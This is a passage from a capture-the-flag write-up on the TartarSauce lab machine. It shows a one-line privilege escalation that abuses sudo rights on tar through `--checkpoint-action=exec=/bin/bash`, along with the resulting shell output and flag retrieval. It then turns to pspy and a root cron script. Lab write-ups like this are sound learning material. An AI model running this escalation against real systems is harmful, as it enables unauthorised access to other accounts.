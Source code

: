 

#### --checkpoint-action

But even better, this privesc can be done in one line!

We'll take advantage of the `tar` options for checkpoints. The
`--checkpoint=x` flag tells tar to take some action every x bytes, as a
progress update. The default behavior is to print a status message.
However, the `--checkpoint-action` parameter allows the user to specify
what action to take at a check point. So I can have it just give me a
shell:



    www-data@TartarSauce:/$ sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
    <ll /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
    tar: Removing leading `/' from member names
    onuma@TartarSauce:/$ id
    id
    uid=1000(onuma) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)



### user.txt

The shell, get user flag:



    onuma@TartarSauce:~$ wc -c user.txt
    33 user.txt
    onuma@TartarSauce:~$ cat user.txt
    b2d6ec45...



## Partial Privesc: onuma --\> File Read as root

As far as I know, there's no way to exploit this box to get a root
shell. But I can read files as root.

### Identify cron with pspy

[pspy](https://github.com/DominicBreuker/pspy) is my go-to for processes
detection. In this case, letting `pspy32` run for a bit shows a script
that runs as root every 5 minutes:



    2018/05/29 07:56:33 CMD: UID=0    PID=24065  | /bin/bash /usr/sbin/backuperer



### Understanding backeruperer

The script is as follows:


